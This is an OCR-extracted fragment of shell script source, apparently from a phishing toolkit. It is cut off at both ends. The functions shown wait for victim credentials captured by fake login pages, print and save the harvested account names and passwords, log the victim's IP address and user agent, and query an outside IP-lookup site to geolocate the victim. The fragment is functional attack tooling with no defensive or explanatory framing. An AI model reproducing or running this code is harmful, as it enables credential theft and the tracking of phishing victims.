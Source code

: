 
}

catch_cred() {

account=$(grep -o 'Account:.*' sites/$server/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' sites/$server/usernames.txt | cut -d ":" -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Account:\e[0m\e[1;77m %s\n\e[0m" $account
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Password:\e[0m\e[1;77m %s\n\e[0m" $password
cat sites/$server/usernames.txt >> sites/$server/saved.usernames.txt
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m sites/%s/saved.usernames.txt\e[0m\n" $server
killall -2 php > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
exit 1

}

getcredentials() {
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting credentials ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/usernames.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Credentials Found!\n"
catch_cred

fi
sleep 1
done 


}

catch_ip() {
touch sites/$server/saved.usernames.txt
ip=$(grep -a 'IP:' sites/$server/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
ua=$(grep 'User-Agent:' sites/$server/ip.txt | cut -d '"' -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Victim IP:\e[0m\e[1;77m %s\e[0m\n" $ip
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] User-Agent:\e[0m\e[1;77m %s\e[0m\n" $ua
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m %s/saved.ip.txt\e[0m\n" $server
cat sites/$server/ip.txt >> sites/$server/saved.ip.txt


if [[ -e iptracker.log ]]; then
rm -rf iptracker.log
fi

IFS='\n'
iptracker=$(curl -s -L "www.ip-tracker.org/locator/ip-lookup.php?ip=$ip" --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31" > iptracker.log)
IFS=$'\n'
continent=$(grep -o 'Continent.*' iptracker.log | head -n1 | cut -d ">" -f3 | cut -d "<" -f1)
printf "\n"
hostnameip=$(grep  -o "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f7 | cut -d ">" -f2)
if [[ $hostnameip != "" ]]; then
printf "\e[1;92m[*] Hostname:\e[0m\e[1;77m %s\e[0m\n" $hostnameip
fi
##
